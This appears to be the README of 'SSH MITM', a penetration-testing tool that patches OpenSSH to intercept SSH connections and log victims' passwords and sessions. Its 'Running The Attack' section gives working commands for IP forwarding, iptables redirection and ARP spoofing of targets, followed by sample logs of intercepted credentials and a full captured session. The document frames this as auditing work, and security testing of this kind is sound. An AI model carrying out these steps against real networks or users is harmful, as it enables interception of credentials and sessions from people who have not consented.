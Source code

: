 # SSH MITM v1.1

Author: [Joe Testa](http://www.positronsecurity.com/about-us/)


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v1.0: May 16, 2017: Initial revision.
* v1.1: ???, 2017: Removed root privilege dependencies.


## To Do

The following list tracks areas to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute from.


## Running The Attack

1.) Run *sshd_mitm*:

    sudo su - ssh-mitm -c "./run.sh"

2.) Enable IP forwarding:

    sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd_mitm* and re-route forwarded SSH connections:

    sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

5.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    May 16 23:14:01 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/ssh-mitm/session_\*.txt*:

    # cat /home/ssh-mitm/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like sudo and ssh temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
